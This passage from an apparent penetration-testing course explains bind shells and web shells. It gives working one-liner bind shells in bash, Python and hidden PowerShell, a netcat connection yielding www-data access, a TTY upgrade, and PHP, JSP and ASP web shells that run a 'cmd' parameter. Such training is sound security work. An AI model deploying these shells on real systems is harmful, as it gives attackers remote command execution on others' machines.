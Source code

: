 #### Bind Shell

Once again, we can utilize [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) to find a proper command to start our bind shell. We will start a listening connection on port '1234' on the remote host, with IP '0.0.0.0' so that we can connect to it from anywhere. The following are reliable commands we can use to start a bind shell:
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```
```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

Once we execute the bind shell command, we should have a shell waiting for us on the specified port. We can now connect to it. We can use netcat to connect to that port and get a connection to the shell:
```bash
nc 10.10.10.1 1234
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Unlike a Reverse Shell, if we drop our connection to a bind shell for any reason, we can connect back to it and get another connection immediately. However, if the bind shell command is stopped for any reason, or if the remote host is rebooted, we would still lose our access to the remote host and will have to exploit it again to gain access.

There are multiple methods to do this. For our purposes, we will use the python/stty method. In our netcat shell, we will use the following command to use python to upgrade the type of our shell to a full TTY:
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Check later the [Upgrading TTY](https://academy.hackthebox.com/module/77/section/725) section to understand better how to upgrade the shell.

#### Web Shell

The final type of shell we have is a Web Shell. A Web Shell is typically a web script, i.e., PHP or ASPX, that accepts our command through HTTP request parameters such as GET or POST request parameters, executes our command, and prints its output back on the web page.

First of all, we need to write our web shell that would take our command through a GET request, execute it, and print its output back. A web shell script is typically a one-liner that is very short and can be memorized easily. The following are some common short web shell scripts for common web languages:
```php
<?php system($_REQUEST["cmd"]); ?>
```
```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```
```asp
<% eval request("cmd") %>
```
